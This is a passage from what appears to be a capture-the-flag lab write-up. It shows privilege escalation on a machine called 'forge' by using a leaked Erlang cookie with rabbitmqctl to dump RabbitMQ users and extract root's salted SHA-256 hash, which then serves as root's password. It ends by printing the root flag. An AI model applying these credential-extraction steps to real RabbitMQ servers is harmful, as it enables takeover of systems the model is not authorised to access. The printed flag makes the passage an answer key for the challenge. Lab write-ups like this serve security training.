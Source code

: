 
And it works, let's try to enumerate users:

```
sudo rabbitmqctl --erlang-cookie 'R2z1G0FXf6Rk2H2w' --node rabbit@forge list_users

Listing users ...
user	tags
The password for the root user is the SHA-256 hashed value of the RabbitMQ root user's password. Please don't attempt to crack SHA-256.	[]
root	[administrator]
```

Now, let's check root password:

```
sudo rabbitmqctl --erlang-cookie 'R2z1G0FXf6Rk2H2w' --node rabbit@forge export_definitions /tmp/data.json

cat /tmp/data.json | jq '.users[] | select(.name == "root")'
{
  "hashing_algorithm": "rabbit_password_hashing_sha256",
  "limits": {},
  "name": "root",
  "password_hash": "49e6hSldHRaiYX329+ZjBSf/Lx67XEOz9uxhSBHtGU+YBzWF",
  "tags": [
    "administrator"
  ]
}
```

We got our hash, we can decode it using the following command:

```
echo -n '49e6hSldHRaiYX329+ZjBSf/Lx67XEOz9uxhSBHtGU+YBzWF' | base64 -d | xxd -p -c 100

e3d7ba85295d1d16a2617df6f7e6630527ff2f1ebb5c43b3f6ec614811ed194f98073585
```

Now, based on the way the hash is structured, we need to remove the 4 byte salt: `e3d7ba85`, this leaves us with our real hash:

```
295d1d16a2617df6f7e6630527ff2f1ebb5c43b3f6ec614811ed194f98073585
```

We can now switch users:

![Pasted image 20250226171829.png](../../IMAGES/Pasted%20image%2020250226171829.png)

And there we are, we are now root, let's read our `root.txt` file:

``
```
root@forge:~# cat root.txt

eabf7a0b05d3f2028f3e0465d2fd0852
```
